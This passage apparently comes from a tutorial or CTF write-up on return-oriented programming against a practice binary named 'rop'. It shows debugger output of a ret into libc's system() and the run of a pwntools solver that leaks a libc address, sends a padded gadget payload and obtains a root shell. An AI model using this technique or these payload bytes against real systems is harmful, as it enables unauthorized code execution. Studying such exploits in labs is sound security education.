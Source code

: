 ```
0x00007ffe1f12a290│+0x0010: 0x00007ffe1f12a378  →  0x00007ffe1f12c591  →  0x485300706f722f2e ("./rop"?)
0x00007ffe1f12a298│+0x0018: 0x8d3026ca0672de32
0x00007ffe1f12a2a0│+0x0020: 0x0000000000000000
0x00007ffe1f12a2a8│+0x0028: 0x00007ffe1f12a388  →  0x00007ffe1f12c597  →  "SHELL=/bin/bash"
0x00007ffe1f12a2b0│+0x0030: 0x0000000000403e00  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64
0x00007ffe1f12a2b8│+0x0038: 0x00007fe7abbef000  →  0x00007fe7abbf02d0  →  0x0000000000000000
──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7fe7ab826a3a <perror_internal+0089> pop    rbx
   0x7fe7ab826a3b <perror_internal+008a> pop    rbp
   0x7fe7ab826a3c <perror_internal+008b> pop    r12
 → 0x7fe7ab826a3e <perror_internal+008d> ret
   ↳  0x7fe7ab8552b0 <system+0000>    endbr64
      0x7fe7ab8552b4 <system+0004>    test   rdi, rdi
      0x7fe7ab8552b7 <system+0007>    je     0x7fe7ab8552c0 <__libc_system+16>
      0x7fe7ab8552b9 <system+0009>    jmp    0x7fe7ab854e30 <do_system>
      0x7fe7ab8552be <system+000e>    xchg   ax, ax
      0x7fe7ab8552c0 <system+0010>    sub    rsp, 0x8
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x7fe7ab826a3e in perror_internal (), reason: SINGLE STEP
```

Once we finish the chain with a call to `system`, we see a shell spawn and once again have accomplished our goal of a remote shell!

```console
$ python3 rop_solver.py
# ... snip ...

[DEBUG] Received 0x2d bytes:
    00000000  59 6f 75 20  6d 69 67 68  74 20 66 69  6e 64 20 74  │You │migh│t fi│nd t│
    00000010  68 69 73 20  76 61 6c 75  65 20 68 65  6c 70 66 75  │his │valu│e he│lpfu│
    00000020  6c 2e 2e 2e  c0 ea 9f ab  e7 7f 00 00  0a           │l...│····│····│·│
    0000002d
[*] Loaded 207 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[DEBUG] Sent 0x59 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000030  41 41 41 41  41 41 41 41  95 87 82 ab  e7 7f 00 00  │AAAA│AAAA│····│····│
    00000040  1b 04 9c ab  e7 7f 00 00  3e 6a 82 ab  e7 7f 00 00  │····│····│>j··│····│
    00000050  b0 52 85 ab  e7 7f 00 00  0a                        │·R··│····│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0x1f bytes:
    b'Detaching from process 2504182\n'
Detaching from process 2504182
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x5 bytes:
    b'root\n'
root
$  
```
